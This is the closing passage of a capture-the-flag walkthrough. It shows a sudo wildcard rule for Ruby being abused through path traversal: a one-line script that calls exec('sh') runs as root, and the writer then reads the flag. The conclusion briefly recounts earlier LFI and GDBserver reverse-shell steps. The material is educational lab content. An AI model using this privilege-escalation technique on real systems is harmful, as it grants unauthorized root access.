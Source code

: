 We can see that the user Carlos can run any Ruby file in the `/root` directory and we do not have write access on that directory. The wildcard `*` matches one or more occurrences of any character, including no character including `.` and `/`. We can use this to perform path traversal to execute a ruby script present in a directroy we control as root. We need a ruby script that gives us a shell as the root user.  
```bash
carlos@airplane:~$ pwd
/home/carlos
carlos@airplane:~$ echo "exec('sh')" > test.rb
carlos@airplane:~$
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/test.rb 
# whoami
root
# ls /root
root.txt  snap
```

We have perform path travesal and executed the `sh` command as root which gave us a root shell on the target. We can use this access to read the second flag on the target.

## Conclusion

Congratulations! In this walkthrough, you have exploited an LFI vulnerability to enumerate the process using an unindentified GDBserver service which you use to obtain a reverse shell on the target. This machine was designed to show how inconsistent input validation when including files could seriously impact an organisation's security posture. Thanks for following up on this walkthrough.
